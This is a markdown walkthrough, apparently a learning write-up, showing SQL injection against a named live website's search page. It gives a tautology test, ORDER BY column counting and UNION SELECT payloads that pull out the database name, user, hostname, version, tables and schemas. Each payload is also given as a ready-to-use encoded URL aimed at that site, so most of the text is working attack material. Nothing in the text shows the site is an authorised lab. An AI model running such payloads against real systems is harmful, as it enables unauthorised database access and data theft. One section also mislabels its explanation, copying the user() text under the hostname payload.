 # Website Link : https://fruits.selfmade.solutions

This website is Vulnerabile in sql injection. Here we see how sql injection happen in real world using this website.

# SQL Injection Vulnerability Experiment

## Overview

This section documents the SQL injection vulnerabilities identified in the website [https://fruits.selfmade.solutions/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## Testing for SQL Injection

To determine if a website is vulnerable to SQL injection, you can use various payloads and observe the system's responses. Here are some commands and payloads that were used to test the website.

### Basic SQL Injection Test

To perform a basic SQL injection test, input the following payload into the search functionality of the website:

' OR '1'='1

**Expected Outcome:** The query should return all records, indicating that the SQL injection is successful.

### Advanced SQL Injection Tests

#### Finding the Number of Columns

You may need to find the number of columns in the original query. This can be done with an injection like:

- `' ORDER BY 1;--`
- `' ORDER BY 2;--`
- `' ORDER BY 3;--`

Continue increasing the number until you get an error, which will indicate the number of columns.

Inject the Union-Based Payload:
Once you know the number of columns, use the UNION injection.

Knowing that the search table has 12 columns, you need to adjust your UNION SELECT statement to match this structure. Here's how you can do it:

Crafting the Injection Payload for a 12-Column Table
Match the Number of Columns:
Ensure the UNION SELECT has the same number of columns as the original query.

Use Null Values for Unneeded Columns:
If you're only interested in extracting the database name, use null for the other columns.

### Extracting the database name

`' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--`

Here we use URL encode because this website uses GET method in form so the given inputs are passes through the URL so we use URL encoding to avoid errors.Which can be seen clearly in result page URL after searching like `apple` etc...

URL Encoded Payload
To use this in a URL, you need to URL-encode the payload:

plaintext

`%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--`

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--%20

Explanation

' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--:
This payload injects a union query that matches the 12-column structure of the original query and extracts the current database name.

URL-encoded version:

This converts the payload into a format suitable for use in a URL.

we can't use Error-Based Injection in this website because the error stop the flow of execution in the server.

### Retrieving User Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT user(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

plaintext

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20user%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retrieving Server Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT @@hostname, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20%40%40hostname%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retriving Sql Version 

use the following payload:

`' UNION SELECT version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20version%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Listing All Tables in the Database

To list all tables in the current database, use:

`' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = database();-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28table_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20%3D%20database%28%29%3B--%20

### Listing All Databases

To list all databases, use:

`' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.schemata;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28schema_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.schemata%3B--%20


